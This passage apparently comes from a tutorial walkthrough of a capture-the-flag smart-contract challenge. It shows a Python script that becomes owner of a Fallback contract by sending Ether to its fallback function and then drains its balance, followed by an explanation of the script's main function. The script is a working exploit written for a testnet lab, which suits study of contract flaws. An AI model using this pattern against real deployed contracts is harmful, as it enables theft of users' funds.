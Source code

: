 ```py

    # ? Invoking the fallback fn. i.e. the recieve() methind in solidity which enables a contract to accept payments

    print(f"{red}Doing the Attack by invoking the fallback fn.{reset}")
    attack_tx = attacker.transfer(contract_address, CONVERTED_AMOUNT)
    attack_tx.wait(1)

    print(f"Previous Address of the owner : {green}{owner}{reset}")
    print(f"Current Address of the owner : {green}{fallback_contract.owner()}{reset}")
    print(f"Address of the attacker : {green}{attacker}{reset}")
    print(f"{red}Hehe Wer're now the owner{reset}")

    # ? Draining the funds
    print(f"{magenta}Now Draining the funds!!!{reset}")

    drain_tx = fallback_contract.withdraw({"from": attacker})
    drain_tx.wait(1)

    print(f"Contract Balance: {green}{fallback_contract.balance()}{reset}")
    print(f"{red}All the money has been withdrawn!!{reset}")


def main(contract_address=None):
    if contract_address:
        attack(contract_address, get_account())
    else:
        attack()
```

- The imports are pretty basic. I hope you will undertand them. `colorama` is to make the outpur colourful. It's pretty hard to read the output if it's plain text.
- Next we have some global variables pretty much basic stuff & the names speaks for itself.

- Let's start with the `main()` function. It takes 1 parameter & it's default value is set to `None` i.e. if we don't pass any values then it'll be set to `None`.
- If it's not `None` then we're calling the `attack` fn. with 2 parameters `contract_address` & with our account (the metamask wallte one). This one will get executed when we test the script on actual testnet for this case on `rinkeby`.
- Else we're just calling the `attack` fn. & it'll not be a problem because see the fn. declaraion `def attack(contract_address=None, attacker=None)`, the default values are `None`.
- Moving on, `if contract_address is None:` will get executed when we're testing locally. This one is just setting up the contract address & accounts which we deployed locally.

- We're making a contract object by using the interface we created easier & passing the address of our contract to it

```js
fallback = interface.Fallback(contract_address)
```

## Approach
